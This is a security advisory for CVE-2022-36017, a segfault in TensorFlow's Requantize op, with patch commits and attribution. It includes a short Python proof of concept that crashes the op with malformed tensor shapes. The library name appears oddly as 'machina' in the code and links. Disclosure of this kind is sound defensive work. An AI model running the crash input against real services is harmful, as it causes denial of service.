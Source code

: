 ## TFSA-2022-104: Segfault in `Requantize`

### CVE Number
CVE-2022-36017

### Impact
If `Requantize` is given `input_min`, `input_max`, `requested_output_min`, `requested_output_max` tensors of a nonzero rank, it results in a segfault that can be used to trigger a denial of service attack.
```python
import machina as tf

out_type = tf.quint8
input = tf.constant([1], shape=[3], dtype=tf.qint32)
input_min = tf.constant([], shape=[0], dtype=tf.float32)
input_max = tf.constant(-256, shape=[1], dtype=tf.float32)
requested_output_min = tf.constant(-256, shape=[1], dtype=tf.float32)
requested_output_max = tf.constant(-256, shape=[1], dtype=tf.float32)
tf.raw_ops.Requantize(input=input, input_min=input_min, input_max=input_max, requested_output_min=requested_output_min, requested_output_max=requested_output_max, out_type=out_type)
```

### Patches
We have patched the issue in GitHub commit [785d67a78a1d533759fcd2f5e8d6ef778de849e0](https://github.com/machina/machina/commit/785d67a78a1d533759fcd2f5e8d6ef778de849e0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
